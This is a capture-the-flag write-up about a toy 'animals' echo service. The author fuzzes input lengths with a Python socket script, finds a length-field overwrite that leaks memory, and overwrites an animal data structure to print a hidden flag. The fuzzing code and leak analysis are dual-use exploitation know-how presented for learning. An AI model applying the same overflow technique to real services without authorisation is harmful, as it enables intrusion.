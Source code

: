 It appears that the input is echoed back, for example if you type in ```catplz!!``` it will echo back: ```This is a catplz!!```.

After trying some %x and similar to no avail I started looking for a buffer overflow, by trying inputs of various lengths to see if something strange happened:

```
from sock import Sock
import hexdump
s = Sock('127.0.0.1',1235)
s.read_until('>>')
for x in range(0,255):
    s.send(('c'*x) + '\r\n')
    reply = s.read_until('>>').split('\r\n')[1]
    print x
    hexdump.hexdump(reply.replace('This is a ',''))
``` 

By sending 11 c's something strange happens indeed:

```
00000000: 63 63 63 63 63 63 63 63  63 63 63 00 5E 01 68 00  ccccccccccc.^.h.
00000010: 00 01 00 00 58 01 69 01  00 01 00 00 52 01 6A 02  ....X.i.....R.j.
00000020: 00 01 00 00 4C 01 6B 03  00 01 00 00 00 00 00 00  ....L.k.........
00000030: 00 00 00 00 00 00 00 00  00 00 00 00              ............
```

The program appears to leak some memory. It turns out the 11th byte of input over-writes the length of the output. If we send ```'c'*10 + chr(1)``` we get back only 1 character of output. If we send ```'c'*10 + chr(0xff)``` we get back the following output:

```
00000000: 63 63 63 63 63 63 63 63  63 63 FF 00 5E 01 68 00  cccccccccc..^.h.
00000010: 00 01 00 00 58 01 69 01  00 01 00 00 52 01 6A 02  ....X.i.....R.j.
00000020: 00 01 00 00 4C 01 6B 03  00 01 00 00 00 00 00 00  ....L.k.........
00000030: 00 00 00 00 00 00 00 00  00 00 00 00              ............
```

Another interesting observation is that if we send ```'c'*12``` we get a cat back but for ```'c'*13``` we don't. The strange thing is that for d we keep getting the dog for ```'d'*20``` but not any more for ```'d'*21```

If we correlate this to the dumped memory we can see the following:

```
Bytes 0-9   63 63 63 63 63 63 63 63  63 63                   cccccccccc = input
Byte 10     FF                                               .          = length
Bytes 12-19 5E 01 68 00 00 01 00 00                          ^.h.....   = cat
Bytes 20-27 58 01 69 01 00 01 00 00                          X.i.....   = dog
Bytes 28-35 52 01 6A 02 00 01 00 00                          R.j.....   = mouse
Bytes 36-43 4C 01 6B 03 00 01 00 00                          L.k.....   = ?
```

So there appear to be 4 8 byte data structures representing the animals. 3 of these we already know but there is a fourth one. The exploit is to overwrite the cat data-structure with that of the unknown animal and then display a cat. Refer to [animals.py](animals.py) for the full exploit.

```
hackbox:exploit2:% python animals.py

This is a cccccccccccLkXiRjLk

FLAG:
c18a2a667c8b37b7
0fe176461133f323
      /
     /
  ___\______
 / ___  ___ \
/ / @ \/ @ \ \
```
